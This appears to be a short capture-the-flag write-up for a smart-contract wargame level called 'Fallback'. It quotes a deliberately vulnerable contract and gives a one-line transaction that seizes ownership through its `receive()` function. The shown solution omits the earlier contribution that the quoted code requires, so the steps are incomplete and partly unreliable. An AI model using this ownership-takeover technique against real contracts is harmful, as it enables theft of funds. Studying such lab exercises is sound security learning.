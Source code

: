 # Fallback

Instance address: 0x9fA85D681E5f36E9E6b8Fdf1755789BfcEDAcDE2

* Fallback is the function called when no other function matches the name called.
	- Its like do X,Y,Z and if none of them are possible just go to `fallback`

* We can see the following code:

```js
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- We can contribute less then `0.001` ether at a time
- if contribution of `sender` are more then that of the owner, sender becomes owner.
    - owners contribution are set to `1000` initially.
    - We can't send 1001 ETH (that will be super slow process)

* Another function is:

```js
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

This basically says that is we `contribute` with some `value` it will make us the owner.

## Solution

```js
sendTransaction({to: contract.address, value: toWei("0.001", "ether"), from: player})
```

